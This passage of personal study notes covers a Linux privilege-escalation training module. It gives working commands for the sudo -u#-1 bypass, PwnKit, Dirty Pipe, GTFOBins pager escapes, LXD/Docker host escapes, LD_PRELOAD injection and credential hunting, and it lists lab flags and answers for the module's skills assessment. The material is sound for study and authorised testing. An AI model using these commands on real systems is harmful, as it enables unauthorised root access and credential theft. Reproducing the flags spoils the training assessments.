The `(ALL, !root)` config is meant to allow running as any user except root. Due to the ID parsing bug, `#-1` resolves to UID 0 anyway.

### Exploit

```bash
sudo -u#-1 /usr/bin/ncdu
# Inside ncdu: press 'b' to open a shell
# The shell runs as root because #-1 = UID 0
whoami   # root
```

Or for binaries with direct shell escape:

```bash
sudo -u#-1 /bin/bash
```

**Lab answer:** `HTB{SuD0_e5c4l47i0n_1id}`

> 📸 Screenshot: `sudo -l` showing `!root`, then `sudo -u#-1` getting root shell

🔍 Worth remembering generally: the fix was in sudo 1.8.28 (October 2019). Any lab box running an older sudo with `!root` in sudoers is likely intentionally demonstrating this CVE.

---

## LPE.21. Polkit CVE-2021-4034 (PwnKit)

🔁 Similar to: [[Linux Privilege Escalation (Offsec)#18.4.3. Kernel Exploits|18.4.3. PwnKit]] where this CVE was already documented with the compilation steps. See that note for the full PoC workflow.

Affects all versions of Polkit (pkexec) before January 2022 patches. Works on virtually every default Linux installation.

```bash
# Check pkexec version
pkexec --version

# Confirm Polkit is installed
which pkexec

# Exploit (from GitHub — many PoC implementations)
# github.com/ly4k/PwnKit
make && ./PwnKit
```

Expected: immediate root shell.

**Lab answer:** `HTB{p0Lk1tt3n}`

---

## LPE.22. Dirty Pipe CVE-2022-0847

Affects Linux kernel 5.8 through 5.17 (before February 2022 patch). Allows any unprivileged user to overwrite arbitrary read-only file contents via the `pipe` mechanism.

The root exploitation method: overwrite a SUID binary's header or `/etc/passwd` line via pipe splice, no write permission needed on the target file.

```bash
# Check kernel version
uname -r
# Vulnerable: 5.8 - 5.17 (not patched)

# Common PoC: overwrite /etc/passwd to add a root user with no password
# github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits

# Or: the SUID binary overwrite variant
# github.com/n3rada/CVE-2022-0847 — overwrites a SUID binary with a root shell payload

gcc -o dirtypipe dirtypipe.c
./dirtypipe
```

Expected: `/etc/passwd` modified with a passwordless root user, or a SUID shell dropped at `/tmp/sh`.

**Lab answer:** `HTB{D1rTy_DiR7Y}`

> 📸 Screenshot: `uname -r` confirming vulnerable kernel, exploit output, then root shell

🔍 Worth remembering generally: Dirty Pipe is powerful because the vulnerability is in the kernel pipe + splice mechanism. No specific SUID binary or sudo misconfiguration needed, just a vulnerable kernel and any file you can open for reading (even `/etc/passwd` is readable by everyone).

---

## LPE.23. Skills Assessment

A 5-question assessment covering a realistic multi-step privilege escalation chain on a single host.



### Step 1: Hidden files in home directory

```bash
ssh htb-student@STMIP
ls -la ~
# Look for dotfiles beyond .bashrc/.profile
cat .hidden_file   # or whatever the file is named
```

Expected: a file with contents `LLPE{d0n_ov3rl00k_h1dden_f1les!}`.

**Q1:** `LLPE{d0n_ov3rl00k_h1dden_f1les!}`

### Step 2: Command history credentials

```bash
cat ~/.bash_history
# Look for: su - <user>, mysql -u ... -p..., ssh -i ..., etc.
```

Expected: a command showing credentials for another user. Switch to that user with `su -` and read their flag.

**Q2:** `LLPE{ch3ck_th0se_cmd_l1nes!}`

### Step 3: Privileged group log access

```bash
id
# Confirms adm group membership

ls /var/log/
grep -r "LLPE" /var/log/ 2>/dev/null
# Or search for the flag pattern specifically
grep -rE "LLPE\{" /var/log/ 2>/dev/null
```

Expected: the flag string inside an apache2 or syslog file.

**Q3:** `LLPE{h3y_l00k_a_fl@g!}`

### Step 4: Tomcat backup file credentials

```bash
# Hunt for .bak files (backup configs often contain plaintext creds)
find / -name "*.bak" -readable 2>/dev/null
# Look in Tomcat directories
find /opt /etc /var -name "tomcat-users*" 2>/dev/null
find / -path "*/tomcat*" -name "*.bak" 2>/dev/null

# Read the backup config
cat /opt/tomcat/conf/tomcat-users.xml.bak
# Contains: username="<user>" password="<pass>"
```

Use those credentials to access the Tomcat manager or read the flag.

**Q4:** `LLPE{im_th3_m@nag3r_n0w}`

### Step 5: busctl sudo GTFOBins → root

```bash
sudo -l
# Shows: (root) NOPASSWD: /usr/bin/busctl

# GTFOBins busctl sudo entry:
sudo busctl --verbose
# When the less pager opens, press: !sh
# This spawns a root shell through the pager's shell escape
whoami   # root

cat /root/flag.txt
```

**Q5:** `LLPE{0ne_sudo3r_t0_ru13_th3m_@ll!}`

> 📸 Screenshot: `sudo -l` showing busctl, then `sudo busctl --verbose` with `!sh` getting root, then flag

---

## Related Boxes

These boxes demonstrate techniques from this module in real assessment conditions:

**Technique-matched boxes:**
- [[Traverxec]] (HTB) — credential hunting in restricted nginx config, restricted shell escape, sudo journalctl GTFOBins (pager shell escape, similar to busctl step)
- [[Shocker]] (HTB) — Shellshock + sudo GTFOBins (perl) for the root step
- [[Irked]] (HTB) — adm group log enumeration combined with SUID/UnrealIRCd
- [[Nineveh]] (HTB) — hidden files + LFI-to-shell chain before privesc
- [[Spectra]] (HTB) — WordPress config credential hunting → sudo initctl abuse
- [[Ready]] (HTB) — GitLab RCE then Docker container escape (matches LPE.13 Docker privesc pattern exactly — `docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash`)
- [[Laboratory]] (HTB) — GitLab authenticated RCE → Docker group escape
- [[Seal]] (HTB) — Tomcat credential hunting in backup files (matches LPE.23 Q4 step)

**Adjacent technique boxes (NFS / container / kernel):**
- [[Squashed]] (HTB) — NFS no_root_squash exploitation (matches LPE.15 exactly)
- [[Meta]] (HTB) — Python library injection + sudo env abuse
- [[Writer]] (HTB) — sudo apt-get GTFOBins + writable Python library
- [[Schooled]] (PG) — LXD container escape for root

> 📸 Screenshot: flag reads on all 5 skills assessment questions


---

## HTB Module Quick Reference

Commands formatted for use with the [[Pre-Engagement Kali Setup]] variable block.

```bash
# ============================================================
# INITIAL RECON (run these first on every Linux shell)
# ============================================================
id && whoami              # who am I and what groups
uname -a                  # kernel version (for CVE matching)
cat /etc/os-release       # distro name and version
hostname                  # machine name
env                       # environment variables (credentials, API keys)
echo $PATH                # PATH contents (hijack opportunity if /tmp is early)

# ============================================================
# USER & PROCESS CONTEXT
# ============================================================
sudo -l                   # what can this user run as sudo — check GTFOBins immediately
ps aux | grep root        # services running as root (attack surface)
ss -lntp                  # local-only services (things nmap missed)
cat /etc/passwd           # all accounts — look for non-standard shells
ls /home                  # home directories (other users' data)

# ============================================================
# CREDENTIAL HUNTING
# ============================================================
history                   # bash history (commands with embedded passwords)
cat ~/.bash_history ~/.zsh_history 2>/dev/null
grep -rnw "password\|passwd\|secret" /etc 2>/dev/null | grep -v "Binary"
find / -name "*.conf" -readable 2>/dev/null | xargs grep -il "password" 2>/dev/null
find / -name "wp-config.php" -readable 2>/dev/null   # WordPress DB creds

# ============================================================
# SUID & CAPABILITIES
# ============================================================
# Find SUID binaries — check each against GTFOBins
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

# Find SGID binaries
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null

# Find binaries with elevated capabilities
getcap -r / 2>/dev/null   # cap_setuid+ep is usually instant root via GTFOBins

# ============================================================
# CRON JOBS
# ============================================================
cat /etc/crontab
ls -la /etc/cron.d/ /etc/cron.daily/ /etc/cron.hourly/
# Monitor processes to spot cron execution:
./pspy64 -pf -i 1000

# ============================================================
# WORLD-WRITABLE FILES & PATHS
# ============================================================
find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null   # writable directories
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null   # writable files
find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null   # config files

# PATH hijacking — if /tmp or . is early in PATH, drop a fake binary
echo $PATH
PATH=.:${PATH}   # prepend . (then place a fake binary with the name of something root calls)

# ============================================================
# PRIVILEGED GROUPS
# ============================================================
id   # look for: adm, docker, lxd, disk, shadow

# adm group — read /var/log (aureport, auth.log credentials)
aureport --tty | grep -E "su|sudo|ssh|pass" 2>/dev/null

# disk group — raw disk access via debugfs
debugfs /dev/sda1
# then: cat /etc/shadow

# lxd group — container escape
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
lxc init alpine r00t -c security.privileged=true
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
lxc start r00t
lxc exec r00t /bin/sh   # → chroot /mnt/root /bin/sh for full host root

# docker group — chroot to host root
docker run -v /:/mnt --rm -it alpine chroot /mnt sh

# ============================================================
# NFS NO_ROOT_SQUASH
# ============================================================
showmount -e $BoxIP          # check from Kali — look for no_root_squash
sudo mount -t nfs $BoxIP:/tmp /mnt
# compile a SUID binary on Kali, copy to the NFS share, execute as target user

# ============================================================
# LD_PRELOAD INJECTION (sudo env_keep)
# ============================================================
sudo -l   # look for: env_keep+=LD_PRELOAD
# Compile a shared lib that calls setuid(0) in _init():
gcc -fPIC -shared -nostartfiles -o /tmp/root.so root.c
sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart

# ============================================================
# SHARED OBJECT HIJACKING (writable RUNPATH)
# ============================================================
readelf -d /usr/local/bin/payroll | grep PATH   # check RUNPATH
# If RUNPATH points to a writable directory, compile a fake .so there:
gcc src.c -fPIC -shared -o /development/libshared.so

# ============================================================
# KERNEL EXPLOITS
# ============================================================
uname -r   # get exact kernel version first
# CVE-2022-0847 Dirty Pipe:  kernel 5.8.0 – 5.16.11
# CVE-2021-4034 PwnKit:       polkit pkexec on nearly all distros pre-2022
# CVE-2021-3493 overlayfs:    Ubuntu 20.04 / 18.04
# GNU Screen 4.5.0:           screen -v → if 4.5.0, run 41154.sh
./lynis audit system   # full system audit with recommendations
```
